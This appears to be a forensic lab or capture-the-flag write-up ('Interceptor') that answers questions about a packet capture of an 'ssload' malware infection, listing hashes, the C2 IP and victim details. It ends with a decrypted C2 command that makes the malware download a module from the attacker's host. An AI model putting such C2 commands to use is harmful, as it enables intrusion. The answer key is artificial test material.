









# Interceptor


What IP address did the original suspicious traffic come from?

> After analyzing the file, suspicious activity was detected starting from 10849 or `10.4.17.101`, attempting to connect to port 80 of `192.229.211.108`, and after connecting, successfully started calling strange URLs.

```
10.4.17.101
```



The attacker downloaded a suspicious file. What is the HTTP method used to retrieve the properties of this file?

```
PROPFIND
```


It appears that this file is malware. What is its filename?

```
avp.msi
```

What is the SSDEEP hash of the malware as reported by VirusTotal?

```
24576:BqKxnNTYUx0ECIgYmfLVYeBZr7A9zdfoAX+8UhxcS:Bq6TYCZKumZr7ARdAAO8oxz
```



According to the NeikiAnalytics community comment on VirusTotal, to which family does the malware belong?

```
ssload
```



What is the creation time of the malware?

```
2009-12-11 11:47:44
```



What is the domain name that the malware is trying to connect with?

```
api.ipify.org
```



What is the IP address that the attacker has consistently used for communication?

```
85.239.53.219
```



Which file, included in the original package, is extracted and utilized by the malware during execution?

```
forcedelctl.dll
```


What program is used to execute the malware?

```
msiexec.exe
```



What is the hostname of the compromised machine?

```
DESKTOP-FWQ3U4C
```



What is the key that was used in the attack?

```
WkZPxBoH6CA3Ok4iI
```

What is the os_version of the compromised machine?

```
Windows 6.3.9600
```

What is the owner name of the compromised machine?

```
Nevada
```

After decrypting the communication from the malware, what command is revealed to be sent to the C2 server?

```
{"command": "exe", "args": ["http://85.239.53.219/download?id=Nevada&module=2&filename=None"]}
```

